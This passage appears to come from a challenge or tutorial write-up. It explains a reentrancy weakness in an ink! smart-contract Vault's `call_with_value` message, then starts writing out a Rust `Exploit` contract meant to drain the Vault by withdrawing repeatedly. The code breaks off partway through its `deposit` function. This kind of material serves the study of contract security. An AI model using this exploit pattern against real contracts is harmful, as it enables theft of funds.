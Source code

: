 Let's take a closer look at the `call_with_value function()`. Thi is an ink! message that allows the contract owner to call other contracts on the blockchain and transfer a specified amount of value in the process. The function takes three arguments:

    address: The address of the contract to call.
    amount: The amount of balance to transfer in the call.
    selector: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have enough funds to perform the transfer. If the balance is sufficient, a new call is constructed using the build_call function provided by the env::call module.

The `build_call()` function constructs a new contract call with the specified arguments. In this case, the call method is used to specify the address of the contract to call, the transferred_value method is used to specify the amount of balance to transfer, and the exec_input method is used to specify the function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called contract to re-enter the current contract if necessary. This possibility ti re-enter the contract, together with an appropiate 32-bit function selector will allow us to repeatedly withdraw balance from the contract, emptying the Vault.

In order to perform this attack, we will use the `exploit()` function of the `Exploit` contract that we outline below:

```rust
#![cfg_attr(not(feature = "std"), no_std)]

#[ink::contract]
mod exploit {
    use ink::env::call::{build_call, Selector};

    #[ink(storage)]
    pub struct Exploit {
        owner: AccountId,
        contract: AccountId,
        amount: Balance,
        gas_to_stop: u64
    }

    impl Exploit {
        #[ink(constructor)]
        pub fn new(owner: AccountId, contract: AccountId, amount: Balance, gas_to_stop: u64) -> Self {
            Self {
                owner: owner,
                contract: contract,
                amount: amount,
                gas_to_stop: gas_to_stop
            }
        }
        
        #[ink(message)]
        pub fn set_gas_to_stop(&mut self, gas_to_stop: u64) {
            self.gas_to_stop = gas_to_stop;
        }

        #[ink(message)]
        pub fn get_balance(&mut self) -> Balance {
            self.env().balance()
        }

        #[ink(message, payable)]
        pub fn deposit(&mut self) -> Balance {
            let call = build_call::<ink::env::DefaultEnvironment>()
                .call(self.contract)
```